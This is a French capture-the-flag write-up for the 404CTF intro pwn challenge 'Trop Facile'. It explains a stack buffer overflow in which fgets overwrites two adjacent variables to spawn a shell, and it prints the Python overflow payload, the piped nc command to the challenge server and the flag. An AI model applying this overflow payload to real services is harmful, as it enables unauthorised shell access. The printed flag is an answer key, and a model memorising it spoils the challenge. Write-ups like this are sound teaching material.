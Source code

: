 # Trop Facile



- Category: `Pwn`
- Points: `100` => `100`
- Difficulty: Intro
- Solves: `300`


**Description**

> Agent, suite à une mission périlleuse, vos collègues ont réussi à s'emparer d'un binaire s'exécutant sur une des machines de Hallebarde. Après une analyse poussée, ils ont réussi à extraire ce qui semblait être la meilleure version du code source. Vous êtes chargé de la dernière étape : essayez d'exploiter le binaire pour en tirer quelque chose.
>
>nc challenge.404ctf.fr 32458
>


**Attachments**

- `compromis.c, compromis`

### :book: Introduction

 Etant donne que c'etait mon tout premier chall de pwn c'etait plutot interessant et assez rapide a faire.


![home](![image](https://user-images.githubusercontent.com/64932654/167711362-83b80e2f-f083-4199-ac3a-598aba2f2f82.png))
- Le code source est relativement simple:
    - **Il y a une variable buf de 40 octets qui prend comme valeur un fgets de 49 octets l'input**
    - **Une valeur check qui est egal a "0xcafebebe"**
    - **Une valeur key qui est egal a "0xdeadbeef"**
    - **On remarque que si key est egal a "0xcafebebe" et check a "0xdeadbeef" un shell se lance**
Il faut donc depasser sur les variables key et check pour ouvrir un shell.




En regardant un peu on peut voir que la fonction fgets recupere 48 bytes (qui vont donc faire depasser la variable buf sur key et check
Donc en theorie si on rentre en input ```python -c 'print("A"*40+"\xef\xbe\xad\xde\xbe\xbe\xfe\xca")' | ./compromis``` la pile devrait ressembler a ca: 


![pile](https://github.com/Numb3rsProprety/404CTF/blob/main/trop-facile/pile1.PNG)


On a donc reussi a depasser sur les variables check et key.

En appliquant: 


![shell](https://github.com/Numb3rsProprety/404CTF/blob/main/trop-facile/shellobtenu.PNG)


On obtient bien un message de reussite mais le shell ne reste pas.
Pour garder le controle sur l'entree standard il suffit d'executer


```(python -c 'print("A"*40+"\xef\xbe\xad\xde\xbe\xbe\xfe\xca")';cat) | ./compromis```

On arrive maintenant a executer des commandes :)

### :arrows_counterclockwise: Exploitation
Il nous suffit maintenant simplement d'executer la meme commande mais en redirigeant le pipe vers le serveur :

```python -c 'print("A"*40+"\xef\xbe\xad\xde\xbe\xbe\xfe\xca")';cat) | nc challenge.404ctf.fr 32458```


![flag](https://github.com/Numb3rsProprety/404CTF/blob/main/trop-facile/flag.PNG)



```

Flag: `404CTF{C_7r0P_F4C113_D3_PWN_14_H411384rD3}`


```

